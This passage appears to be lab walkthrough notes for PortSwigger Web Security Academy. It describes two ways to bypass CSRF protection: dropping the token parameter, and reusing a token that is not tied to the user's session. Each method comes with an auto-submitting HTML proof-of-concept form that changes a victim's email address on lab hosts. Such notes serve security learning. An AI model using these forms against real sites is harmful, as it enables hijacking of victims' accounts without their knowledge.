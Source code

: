 4. Deliver exploit to victim
# CSRF Protection Bypass (Remove CSRF Parameter)

When the app uses a CSRF token as a header/parameter, remove the entire CSRF token parameter and value to potentially bypass the CSRF protection.

1. Find a vulnerable state-changing request
2. Send the request to Repeater and remove the CSRF token parameter from the request and submit it
3. If request is successful, generate a CSRF PoC from Burp Pro

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a6c004d0354f0a281149eb0003f0061.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="victim&#64;victim&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

4. Deliver the exploit to the victim through the exploit server
# CSRF Protection Bypass (Token Not Tied to Session)

CSRF tokens may not be tied to the user's session. The app may be keeping a pool of valid tokens and if the submitted request contains one of these tokens then the request will be processed successfully. 

An attacker can log in to the app, obtain a valid token and use the token when attacking other users via a CSRF attack.

1. Find a vulnerable state changing request.
2. Make a request and take note of the CSRF token value & drop the request (CSRF tokens are one-time use)
3. Generate a CSRF PoC
4. Replace the token value with one copied or not used before

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a4b0006038634fb80b6bce700680074.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="victim&#64;wiener3&#46;net" />
      <input type="hidden" name="csrf" value="W6FsHjNLdaj75dIEssPr" /> <!-- Replace -->
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
